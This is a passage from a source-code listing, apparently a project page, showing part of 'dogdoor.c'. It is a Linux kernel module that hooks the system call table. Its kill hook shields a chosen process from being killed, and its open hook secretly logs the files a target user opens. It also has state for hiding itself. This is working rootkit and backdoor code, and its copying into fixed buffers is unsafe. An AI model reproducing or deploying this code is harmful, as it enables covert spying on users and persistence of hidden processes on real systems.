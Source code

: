       return 0;
    
    }

**dogdoor.c**


    #include <linux/syscalls.h>
    #include <linux/module.h>
    #include <linux/proc_fs.h>
    #include <linux/seq_file.h>
    #include <linux/uaccess.h>
    #include <linux/kallsyms.h>
    #include <linux/init.h>
    #include <linux/kernel.h>
    #include <asm/unistd.h>
    #include <linux/cred.h>
    #include <linux/sched.h>
    
    
    MODULE_LICENSE("GPL");
    
    char filepath[128] = { 0x0, } ;
    char filelist\[10\][128] = { {0x0, } };
    void ** sctable ;
    int count = 0 ;
    int saved_uid = -1;
    long saved_pid = -1;
    bool hidden = false;
    struct list_head* head;
    asmlinkage long (*orig_sys_kill)(pid_t pid, int sig) ;
    asmlinkage int (*orig_sys_open)(const char __user * filename, int flags, umode_t mode) ;
    
    //when the system call kill is intercepted
    asmlinkage long dogdoor_sys_kill(pid_t pid, int sig) {
            //if the pid is same as the saved one, it will return -1.
            if(pid == saved_pid) return -1;
            //otherwise, original system call is executed
            return orig_sys_kill(pid, sig);
    }
    
    //when the system call open is intercepted
    asmlinkage int dogdoor_sys_open(const char __user * filename, int flags, umode_t mode)
    {
            char fname[256];
            //copy filename to fname
            copy_from_user(fname, filename, 256);
    
            //print the log of the current file accessed
            printk("%d : %s", current->cred->uid.val, fname);
    
            //if the uid is same as the saved uid, then put the filename to the filelist
            if(saved_uid - current->cred->uid.val == 0 && fname[0] != 0x0){
                    strcpy(filelist[count], fname);
                    count ++;
                    if(count == 10) count = 0;
            }
            //go back to the original system call
            return orig_sys_open(filename, flags, mode) ;
    }
    